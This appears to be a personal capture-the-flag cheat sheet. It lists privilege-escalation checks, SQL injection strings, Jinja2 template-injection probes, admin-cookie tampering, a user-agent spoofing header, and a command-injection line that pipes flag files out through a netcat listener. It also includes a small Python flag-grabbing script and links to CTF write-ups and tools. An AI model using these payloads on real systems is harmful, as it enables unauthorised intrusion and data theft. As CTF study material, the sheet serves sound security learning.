 # Ch34tsh33t
My CheatSheet

Check /etc/shadow file permission
check /etc/passwd file permission
check cron jobs
Check sudo priv
Check SUID/SGID Executables

*Always check the Http method needed. Below are the list of HTTP Methods*
-POST
-GET
-PUT
-PATCH
-DELETE

*Using Google as secret-agent*
headers = {
	'User-Agent': 'Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)'
}

*If No Login was provided but Admin login is available*
Try using cookie "admin" set it to "true"

*SQL Injection*
' OR '1'='1' --
' LIKE '%'; --
' UNION SELECT * FROM answers WHERE answer GLOB '<input>*'; --

*Testing for Flask framework (Jinja2)*
{{1+1}} -> {{config.items()}} OR {{config}}


*Exploiting Ping command via WebApp*
8.8.8.8; cat *flag* | nc -lp 54433 -> nc targetip 54433

*Python Code To get http request*

#!/usr/bin/python

import requests
import re

params = {'user': 'test', 'password': 'test', 'submit': 'Sign In'}
jar = {'admin': 'True', 'password': '', 'username': ''}

r = requests.get('{TARGET IP}', data=params, cookies=jar)
source = r.text
print re.findall(r'(flag\{.+\})', source)[0]

*OTHERS*

*Git-Dumper*

*Obfuscate*
http://www.jsnice.org/

*OSINT*
https://github.com/i3visio/writeup-osintctf-2018/blob/master/levels/level_03-Sweden.md
https://github.com/i3visio/writeup-osintctf-2018/blob/master/levels/level_05-Guatemala.md
https://github.com/i3visio/writeup-osintctf-2018/blob/master/levels/level_06-Zambia.md
https://www.digital.security/en/blog/write-defcon-25-recon-village-osint-ctf
https://medium.com/osintblog/recon-village-ctf-overview-fe8787f3ce7f
GOOGLE MX TOOLBOX *

*Misc*
https://medium.com/bugbountywriteup/meepwn-ctf-quals-2018-writeup-part-1-ab216bbf0b35
https://medium.com/bugbountywriteup/codefest19-ctf-writeups-a8f4e9b45d1

*Forensics*
strings filename | grep flag - HexDump
exiftool image | grep flag - Metadata
zsteg image - least significant bit - http://stylesuxx.github.io/steganography/
file filename
stegsolve 
https://tcode2k16.github.io/blog/posts/picoctf-2019-writeup/forensics/
https://pequalsnp-team.github.io/cheatsheet/steganography-101
https://0xrick.github.io/lists/stego/

*Crypto*
Vignere Cipher - https://www.dcode.fr/vigenere-cipher
ROT13 - https://rot13.com/
John The Ripper
Ceasar Cipher -https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,11)&input=eWpoaXB2ZGRzZGFzcnB0aHBncnhld3RnZHFuanl0dG8
Substitution Solver - https://www.guballa.de/substitution-solver
Ceasar Cipher (No Key) - https://www.mygeocachingprofile.com/codebreaker.vigenerecipher.aspx
Substitution - https://quipqiup.com/
CYBERCHEF

*Bitflip*
https://wannabyte.xyz/2018/10/picoctf-secure-logon/
https://security.stackexchange.com/questions/177614/how-difficult-is-it-to-modify-aes-ciphertext-in-a-meaningful-way

*General Skills*
https://tcode2k16.github.io/blog/posts/picoctf-2019-writeup/general-skills/
https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/general-skills/
